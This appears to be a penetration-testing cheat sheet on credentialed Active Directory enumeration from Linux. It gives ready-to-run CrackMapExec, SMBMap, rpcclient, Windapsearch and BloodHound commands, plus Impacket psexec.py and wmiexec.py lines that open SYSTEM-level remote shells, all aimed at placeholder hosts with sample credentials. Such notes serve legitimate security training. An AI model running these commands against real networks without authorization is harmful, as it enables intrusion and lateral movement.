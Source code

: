 # Credentialed Enumeration From Linux

## **Authenticated Enumeration - from Linux**

### 1️⃣ CrackMapExec

* `sudo crackmapexec smb 10.20.30.40 -u alex -p StrongPass123 --users` → Enumerates domain users\
  Displays a list of domain users along with the `badPwdCount` attribute.
* `sudo crackmapexec smb 10.20.30.40 -u alex -p StrongPass123 --groups` → Enumerates domain groups\
  Provides a list of groups along with the number of users in each.
* `sudo crackmapexec smb 10.20.30.150 -u alex -p StrongPass123 --loggedon-users` → Shows currently logged-in users.
* `sudo crackmapexec smb 10.20.30.40 -u alex -p StrongPass123 --shares` → Lists available shared resources and access levels for the user.
* `sudo crackmapexec smb 10.20.30.40 -u alex -p StrongPass123 -M spider_plus`\
  This module scans all accessible shares for readable files. You can specify a particular share using `--share 'Finance Records'`.\
  The output is saved in `/tmp/cme_spider_plus/<target_ip>`.

### 2️⃣ SMBMap

* `smbmap -u alex -p StrongPass123 -d CORP.LOCAL -H 10.20.30.40` → Checks accessible resources and permission levels.
* `smbmap -u alex -p StrongPass123 -d CORP.LOCAL -H 10.20.30.40 -R 'Finance Records' --dir-only`\
  Displays all subdirectories within the specified directory without listing files.

### 3️⃣ rpcclient

[`rpcclient`](https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html) is a useful tool for interacting with Samba and MS-RPC services. It allows enumeration, modification, and deletion of Active Directory objects.

* `rpcclient -U "" -N 10.20.30.40` → Establishes a null session shell with the domain controller.
* `rpcclient$> queryuser 0x457` → Enumerates user by RID (0x457 in hex = 111 in decimal).
* `rpcclient$> enumdomusers` → Lists all domain users along with their RIDs.

### 4️⃣ Impacket Toolkit

#### Psexec.py

This tool uploads an executable to the `ADMIN$` share, creates a remote service, and establishes a SYSTEM-level shell.

* `psexec.py corp.local/jdoe:'SecurePass!1'@10.20.30.125` → Spawns a remote shell.

#### wmiexec.py

`wmiexec.py` leverages Windows Management Instrumentation (WMI) for command execution. Unlike `psexec.py`, it does not leave artifacts on the target system.

* `wmiexec.py corp.local/jdoe:'SecurePass!1'@10.20.30.40` → Opens a semi-interactive shell.

### 5️⃣ Windapsearch

[Windapsearch](https://github.com/ropnop/windapsearch) is a Python script for querying LDAP and extracting user, group, and computer information from an Active Directory domain.

* `python3 windapsearch.py --dc-ip 10.20.30.40 -u alex@corp.local -p StrongPass123 --da` → Retrieves members of the Domain Admins group.
* `python3 windapsearch.py --dc-ip 10.20.30.40 -u alex@corp.local -p StrongPass123 -PU` → Identifies privileged users.

### 6️⃣ BloodHound.py

Initially a PowerShell tool, `BloodHound.py` is a Python implementation useful for gathering AD-related data without needing a Windows machine.

* `sudo bloodhound-python -u 'alex' -p 'StrongPass123' -ns 10.20.30.40 -d corp.local -c all` → Runs BloodHound data collection.
  * `-ns` = Name server
  * `-d` = Domain
  * `-c` = Collection type (all data in this case)

The output consists of JSON files.

* `zip -r corp_bh.zip *.json` → Compresses collected data into a ZIP file.
